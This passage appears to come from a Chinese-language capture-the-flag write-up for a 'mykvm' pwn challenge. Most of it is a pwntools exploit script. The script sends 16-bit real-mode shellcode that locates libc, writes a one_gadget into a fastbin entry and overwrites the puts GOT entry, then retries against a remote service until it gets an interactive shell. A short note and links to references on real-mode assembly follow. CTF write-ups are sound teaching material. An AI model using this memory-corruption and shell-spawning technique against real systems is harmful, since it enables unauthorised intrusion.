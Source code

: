 ```python
    mov ebx, eax
    shr eax, 16
    shl eax, 12
    mov ds,  eax
    mov edx, dword ptr ds:[bx]
    add bx,  4
    mov ecx, dword ptr ds:[bx]
    sub edx, 0x3c51a8
    add edx, 0x4527a      

    // write one_gadget to fastbin(0x20) + 8
    mov eax, [esp]                  
    add eax, 0x27e8
    mov ebx, eax
    shr eax, 16
    shl eax, 12
    mov ds, eax
    mov ds:[bx], edx
    add bx, 4
    mov ds:[bx], ecx
   
    // write puts got - 8 to dest
    mov ebx, 0
    mov ds,  ebx
    mov ebx, 0x602020
    mov ds:[0x7100], ebx
    
    hlt
''')

while 1:
    io.sendlineafter(b"size:",str(len(shellcode)))
    io.sendafter(b"code:",shellcode)
    io.sendlineafter(b"name:",b'b'*20)
    io.sendlineafter(b"passwd:",b'a'*20)
    io.recvline()
    a = io.recv(0x1b)
    if b"mykvm" not in a:
        print("[+] yes!!!")
        io.send(b"\n")
        break
    io.close()
    io = remote("20.247.110.192",10888)

io.interactive()
```

16位的实模式的shellcode还是有一些需要注意的：

- [3.1 实模式](https://cch123.gitbooks.io/duplicate/content/part1/legacy/real-mode.html)
- [GCC汇编源码中的.rept关键字](https://blog.csdn.net/waverider2012/article/details/8524175)
- [How to tell GCC to generate 16-bit code for real mode](https://stackoverflow.com/questions/19055647/how-to-tell-gcc-to-generate-16-bit-code-for-real-mode)
- [Linux 桌面玩家指南：08. 使用 GCC 和 GNU Binutils 编写能在 x86 实模式运行的 16 位代码](https://www.cnblogs.com/youxia/p/LinuxDesktop008.html)
- [x86汇编指令详解](https://blog.csdn.net/swartz_lubel/article/details/77919067)
- [汇编语言条件跳转指令汇总](http://c.biancheng.net/view/3567.html)
